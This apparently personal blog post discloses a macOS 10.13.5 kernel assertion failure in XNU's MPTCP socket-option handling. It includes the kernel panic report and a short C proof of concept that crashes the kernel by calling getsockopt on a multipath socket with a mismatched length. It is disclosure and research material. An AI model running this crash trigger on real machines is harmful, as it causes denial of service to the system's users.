 ```yaml
---
layout: post
title:  "NO02: BSD getsockopt, assert failure"
date:   2018-07-10 23:08:00 +0800
categories: vulnerabilities
tags: Case
---
```


# Description
This case is of type Assert Failure. Not accepted by apple as vulnerability any more.

# Environment
* OS: 		    macOS 10.13.5  
* Module:	    BSD

# Panic Report
```
panic(cpu 0 caller 0xffffff8003df2892): assertion failed: mpo == NULL || sopt->sopt_valsize == sizeof (int), file: /Users/xxxxxxxx/Vuln/myxnu/build-xnu-4570.41.2/xnu-4570.41.2/bsd/netinet/mptcp_subr.c, line: 1113
Backtrace (CPU 0), Frame : Return Address
0xffffff8866f23aa0 : 0xffffff8003943f26 
0xffffff8866f23af0 : 0xffffff8003abcdf4 
0xffffff8866f23b30 : 0xffffff8003aad0a9 
0xffffff8866f23bb0 : 0xffffff80038dc190 
0xffffff8866f23bd0 : 0xffffff80039435fa 
0xffffff8866f23d00 : 0xffffff800394339c 
0xffffff8866f23d60 : 0xffffff8003df2892 
0xffffff8866f23d90 : 0xffffff8003dfa5ef 
0xffffff8866f23e40 : 0xffffff8003f83815 
0xffffff8866f23eb0 : 0xffffff8003f91fc5 
0xffffff8866f23f10 : 0xffffff8003fc6a4b 
0xffffff8866f23fa0 : 0xffffff80038dc976 

BSD process name corresponding to current thread: syz-executor0
Boot args: kext-dev-mode=1 debug=0x146 kcsuffix=development

Mac OS version:
17D47
```

# PoC
```
#include <iostream>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netinet/tcp.h>

#define AF_MULTIPATH 39

int main(int argc, const char * argv[]) {
    int sockfd = socket(AF_MULTIPATH, SOCK_STREAM, IPPROTO_TCP);
    int flag = 0;
    socklen_t len = 1;
    
    setsockopt(sockfd, IPPROTO_TCP, TCP_NODELAY, (void *)&flag, 4);
    getsockopt(sockfd, IPPROTO_TCP, TCP_NODELAY, (void *)&flag, &len);
    
    return 0;
}
```

# Disclaimer
Since this type case is not vulnerability, the vendor(apple) may not fix it. Please don't use this PoC code to do any malicious things. Just for fun.

